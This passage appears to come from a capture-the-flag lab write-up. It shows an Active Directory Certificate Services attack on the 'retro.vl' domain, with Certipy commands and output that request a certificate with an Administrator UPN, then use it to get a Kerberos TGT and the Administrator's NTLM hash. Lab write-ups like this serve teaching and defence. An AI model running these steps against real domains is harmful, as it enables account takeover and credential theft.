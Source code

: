 ### Certificate Request for Administrator

```
certipy-ad req -dc-ip 10.10.83.167 -u 'BANKING -p 'newpassword' -ca retro-DC-CA -template RetroClients -upn Administrator -key-size 4096

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

The certificate request succeeds, providing us with a valid certificate that can be used to authenticate as the Domain Administrator. The certificate is saved as `administrator.pfx` and contains both the public certificate and private key.

### Time Synchronization

Before proceeding with certificate authentication, we must ensure our system clock is synchronized with the domain controller to avoid Kerberos authentication failures.

```
sudo rdate -n 10.10.70.230
Sat Aug 23 15:59:32 CEST 2025
```

### Certificate Authentication

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.83.167 -username administrator -domain retro.vl

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*] SAN UPN: 'Administrator'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d.................
```

The certificate authentication is successful, providing us with:

1. A valid `Kerberos TGT` for the Administrator account
2. The `NTLM` hash for the Administrator account: `252fac7066d.................`

---